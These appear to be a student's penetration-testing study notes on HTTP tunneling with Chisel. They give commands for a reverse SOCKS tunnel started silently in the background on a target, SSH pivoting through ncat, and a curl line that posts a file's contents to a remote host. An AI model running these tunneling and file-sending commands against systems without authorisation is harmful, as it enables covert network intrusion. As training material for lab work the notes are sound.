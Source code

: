 ## Section 1 HTTP Tunneling Theory and Practice
### 16.1.2 HTTP Tunneling with Chisel
- start a chisel server with 
```
chisel server --port 8080 --reverse
```
- Start a chisel client with 
```
chisel client <SERVER_IP>:8080 R:socks > /dev/null 2>&1 &
```
- You can also run a chisel server on your client and use ncat to connect with the following 
```
chisel server --port 8080 --reverse
```
- Start a chisel client on the target machine
- Find the local proxy with 
```
ss -ntplu
```
- Use the following command with the local proxy port to connect 
```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:<LOCAL_PORT_PROXY> %h %p' <TARGET_USER>@<TARGET_IP>
```
- Chisel troubleshooting example if output isn't showing
```
chisel client<IP>:8080 R:socks &>/tmp/output; curl --data @/tmp/output http://<IP>:8080/
```

## Section 2

## Exercises To-Do

- [ ] 2.1.1 (page 20)